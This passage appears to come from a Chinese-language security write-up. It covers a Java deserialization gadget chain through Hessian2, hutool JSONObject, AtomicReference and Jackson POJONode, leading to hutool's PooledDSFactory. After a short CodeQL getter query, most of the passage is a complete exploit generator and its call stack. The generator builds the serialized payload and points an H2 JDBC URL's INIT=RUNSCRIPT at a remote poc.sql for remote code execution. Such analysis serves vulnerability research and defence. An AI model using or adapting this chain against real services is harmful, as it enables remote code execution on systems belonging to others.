

不一样导致不能调用我们的 getter 方法导致了利用失败了

```
import java

class GetterMethod extends Method {
  GetterMethod() {
    this.getName().indexOf("get") = 0 and
    this.getName().length() > 3 and
    this.hasNoParameters() and
    this.fromSource() and
    exists(Field f1 | 
      f1.getDeclaringType() = this.getDeclaringType() and  // 获取与当前方法相同的类
      f1.hasModifier("public")  // 该类中至少有一个 public 字段（不要求匹配 getter 方法）
    ) and
    exists(Field f2 |
      f2.getDeclaringType() = this.getDeclaringType() and  // 获取与当前方法相同的类
      "get" + f2.getName() = this.getName().toLowerCase() // 该类中至少有一个字段与 getter 方法匹配（不要求 public）
    )
  }
}
from GetterMethod method
select method
```

#### 成功利用

所以实际利用中我们更多是利用 hutool 这个组件的这个类，具体的调用 setter 和 getter 的逻辑实际是从其他组件中利用的

参考<https://zer0peach.github.io/2024/03/27/chain17/#agent-1>

```
import cn.hutool.core.map.SafeConcurrentHashMap;
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import com.alibaba.com.caucho.hessian.io.SerializerFactory;
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;
import java.util.HashMap;
import java.util.concurrent.atomic.AtomicReference;

public class WM_agent {
    public static void main(String[] args) throws Exception {

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        String url="jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'";
        PooledDSFactory pooledDSFactory = createWithoutConstructor(PooledDSFactory.class);

        Setting setting = new Setting();
        setting.setCharset(null);
        setting.set("url",url);
        setting.put("initialSize", "1");
        setFieldValue(pooledDSFactory,"setting",setting);

        HashMap<Object, Object> dsmap = new HashMap<>();
        dsmap.put("",null);
//        setFieldValue(pooledDSFactory,"dsMap",dsmap);
        setFieldValue(pooledDSFactory,"dsMap",new SafeConcurrentHashMap<>());

        Bean bean = new Bean();
        ByteArrayOutputStream baos2 = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos2);
        oos.writeObject(pooledDSFactory);
        oos.close();
        bean.setData(baos2.toByteArray());

        POJONode jsonNodes = new POJONode(bean);

        AtomicReference atomicReference = new AtomicReference("poc");
        JSONObject jsonObject = new JSONObject();
        //innermap
        HashMap<Object, Object> innermap = new HashMap<>();
        setFieldValue(innermap, "size", 1);


        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, "manqiu",atomicReference, null));

        setFieldValue(innermap, "table", tbl);
        setFieldValue(jsonObject,"raw",innermap);
        setFieldValue(atomicReference,"value",jsonNodes);


        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        out.setSerializerFactory(new SerializerFactory());
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(jsonObject);
        out.flushBuffer();
        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(base64String);
        byte[] data = Base64.getDecoder().decode(base64String);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(data);
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        Object object = hessian2Input.readObject();
        System.out.println(object.getClass());
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }


    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.setAccessible(true);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }
}
```

这里通过打的 h2 数据库造成的 rce



调用栈如下

```
getConnection:208, DriverManager (java.sql)
<init>:48, PooledConnection (cn.hutool.db.ds.pooled)
newConnection:124, PooledDataSource (cn.hutool.db.ds.pooled)
<init>:85, PooledDataSource (cn.hutool.db.ds.pooled)
createDataSource:51, PooledDSFactory (cn.hutool.db.ds.pooled)
createDataSource:122, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:82, AbstractDSFactory (cn.hutool.db.ds)
getDataSource:62, DSFactory (cn.hutool.db.ds)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
serializeAsField:688, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:772, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
serializeAsField:732, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:772, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1150, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
_serializeNonRecursive:105, InternalNodeMapper$WrapperForSerializer (com.fasterxml.jackson.databind.node)
serialize:85, InternalNodeMapper$WrapperForSerializer (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:479, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:318, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1572, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1273, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1140, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:34, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:242, BaseJsonNode (com.fasterxml.jackson.databind.node)
valueOf:2994, String (java.lang)
toString:237, AtomicReference (java.util.concurrent.atomic)
wrap:801, JSONUtil (cn.hutool.json)
set:393, JSONObject (cn.hutool.json)
set:352, JSONObject (cn.hutool.json)
put:340, JSONObject (cn.hutool.json)
put:32, JSONObject (cn.hutool.json)
doReadMap:145, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readMap:126, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readMap:98, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readMap:535, SerializerFactory (com.alibaba.com.caucho.hessian.io)
readMap:524, SerializerFactory (com.alibaba.com.caucho.hessian.io)
readObject:2741, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2308, Hessian2Input (com.alibaba.com.caucho.hessian.io)
main:94, WM_agent
```
